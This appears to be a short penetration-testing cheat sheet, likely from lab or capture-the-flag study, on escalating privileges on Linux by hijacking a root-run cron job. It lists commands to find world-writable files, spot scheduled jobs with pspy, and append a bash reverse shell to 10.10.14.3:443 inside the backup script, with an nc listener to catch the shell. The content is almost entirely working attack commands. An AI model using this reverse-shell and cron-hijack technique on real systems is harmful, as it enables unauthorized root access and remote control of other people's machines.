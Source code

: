 **Search for writeable files or directories
```shell-session
find / -path /proc -prune -o -type f -perm -o+w 2>/dev/null
```
- Example entry: 0 */12 * * * /home/admin/backup.sh (runs every 12 hours. minutes, hours, days, weeks, months)

**Check if script is world writeable and runs as root
```shell-session
ls -la /dmz-backups/
```

## pspy (find cronjobs)
```shell-session
./pspy64 -pf -i 1000
```

**Make a copy fo cronjob script
```shell-session
cp /dmz-backups/backup.sh backup2.sh
```

**Edit original file to create bash one-liner reverse shell (append)
```shell-session
bash -i >& /dev/tcp/10.10.14.3/443 0>&1
```

**Create listener
```shell-session
nc -lvnp 443
```
